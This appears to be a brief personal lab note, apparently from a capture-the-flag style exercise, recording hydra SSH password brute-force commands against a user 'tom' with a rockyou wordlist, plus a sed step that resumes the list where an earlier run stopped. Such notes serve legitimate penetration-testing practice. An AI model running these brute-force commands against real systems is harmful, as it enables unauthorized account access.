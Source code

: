 - `hydra -l tom -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-60.txt 10.129.64.82 ssh -t 4 -I`
![[Pasted image 20240828170837.png]]
- create wordlist from line where I finished
```
sed -n '5913,$p' /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-60.txt >  rockyou-60_after_5912.txt 
```
- and one more round    `hydra -l tom -P rockyou-60_after_5912.txt 10.129.142.86 ssh -t 4 -I`
- `hydra -l tom -P rockyou-60_processing.txt 10.129.229.147 ssh -t 4`
![[Pasted image 20240902171953.png]]